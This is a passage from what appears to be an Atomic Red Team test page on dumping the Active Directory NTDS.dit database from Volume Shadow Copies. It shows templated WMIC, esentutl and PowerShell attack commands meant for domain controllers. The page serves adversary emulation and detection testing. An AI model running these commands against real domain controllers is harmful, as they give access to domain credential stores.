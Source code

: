 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
wmic /node:"#{target_host}" process call create "cmd.exe /c esentutl.exe /y /vss #{source_path} /d #{target_path}"
```

#### Dependencies: Run with `command_prompt`!

##### Description: Target must be a reachable Domain Controller, and current context must be domain admin

##### Check Prereq Commands:

```cmd
wmic /node:"#{target_host}" shadowcopy list brief
```

##### Get Prereq Commands:

```cmd
echo Sorry, can't connect to target host, check: network, firewall or permissions (must be admin on target)
```

<br/>
<br/>

## Atomic Test #7 - Create Volume Shadow Copy with Powershell

This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows

**auto_generated_guid:** 542bb97e-da53-436b-8e43-e0a7d31a6c24

#### Inputs:

| Name         | Description                                  | Type   | Default Value |
| ------------ | -------------------------------------------- | ------ | ------------- |
| drive_letter | Drive letter to source VSC (including colon) | string | C:&#92;       |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
(gwmi -list win32_shadowcopy).Create('#{drive_letter}','ClientAccessible')
```

<br/>
<br/>

## Atomic Test #8 - Create Symlink to Volume Shadow Copy
